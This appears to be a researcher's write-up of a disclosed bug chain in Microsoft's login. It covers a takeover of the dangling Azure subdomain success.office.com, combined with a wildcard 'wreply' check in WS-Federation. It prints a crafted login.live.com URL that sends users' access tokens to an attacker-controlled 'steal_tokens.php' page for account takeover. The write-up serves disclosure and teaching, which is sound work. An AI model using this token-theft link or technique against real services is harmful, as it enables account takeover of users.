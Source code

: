 ```yaml
---
layout: post
title: Leaking access tokens from Microsoft apps chaining two vulnerabilities
---
```


---




### First Issue:

During the initial recon I retrieved the list of all possible subdomains of office.com pointing to many Azure instances. One of them was success.office.com which was not getting resolved to any IP address, but had a CNAME pointing to an Azure web app instance `successcenter-msprod`. 
Chances are that you can takeover an Azure instance if the domain is not getting resolved. So I tried to create a web app with the name `successcenter-msprod` in my Azure portal
and it was accepted as a valid name. In other words, the previous instance with that name had been removed and is now free.
Which basically means, whatever we host on `successcenter-msprod`; `success.office.com` would point to it as the CNAME record specifies. 

### Second Issue:

Microsoft uses WS Federation for it's implementation of a centralized login system for most of the applications including Outlook, Sway, Microsoft Store etc. WS Fed is similar to Oauth. 
`wreply` in WS Fed is the counterpart of `redirect_url` in Oauth. If you read Nir Goldshlager's Facebook Oauth bug series, you will understand
the dangers of not using an exact URL match (or not properly validating) for wreply or redirect_url wherever possible. Here in this case, Microsoft 
was allowing any subdomains of office.com (*.office.com) to be a valid wreply URI. 


Since one of their subdomain was in my control, I could use this domain as a valid `wreply` url and was able to leak the access tokens:

`https://login.live.com/login.srf?wa=wsignin1.0&rpsnv=13&ct=1529775349&rver=6.7.6643.0&wp=MBI_SSL&wreply=https://success.office.com/steal_tokens.php&lc=1033&id=292666&lw=1&fl=easi2&pcexp=true&uictx=me`

Basically, if any user who clicked on a crafted link with this changes, the tokens would get leaked and this token can be exchanged
for a session token and subsequently an account takeover would result.


<img src="http://139.59.39.57/images/outlook.jpg" />

PS : There are different news being spread out with different hypes which may not reflect pure technical terms or properly specify
the steps required to exploit this; those may not reflect my opinions.
